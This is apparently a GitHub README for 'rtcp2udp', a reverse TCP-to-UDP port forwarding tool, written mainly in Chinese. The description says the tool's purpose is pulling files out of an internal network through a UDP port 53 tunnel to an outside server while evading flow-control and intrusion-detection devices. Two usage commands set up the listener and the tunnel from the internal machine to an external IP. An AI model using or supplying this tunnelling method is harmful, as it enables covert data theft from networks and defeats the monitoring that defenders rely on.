 # rtcp2udp
    反向端口转发工具
    Reverse TCP Port to UDP Forwarding Tools

## 描述
    在Hack场景中，Hack人员需要从内网获取指定文件，并向外网传输时，不被流控设备，入侵检测设备所警觉；
    于是有了本工具，本工具的原理为，向外网服务器建立一个反向的UDP端口(53)隧道，用于文件传输；

## 实例图
![](https://github.com/ring04h/rtcp2udp/blob/master/portmap.png?20160429)

## 使用说明
Http Server  <- 内网机器 -> Internet Server
client request -> tcp:119.29.29.29:80 -> udp:119.29.29.29:53 -> tcp:172.168.1.10:80

1. 在你的外网服务器监听用于服务的 UDP&TCP 端口
```shell
# 这里假设场景,你的外网服务器 IP 为 119.29.29.29
python tcp2udp.py -t 0.0.0.0:80 -u 0.0.0.0:53
```
2. 在内网机器打通与外网服务器之间的 UDP 隧道
```shell
python rtcp2udp.py -t 172.168.1.10:80 -u 119.29.29.29:53
``` 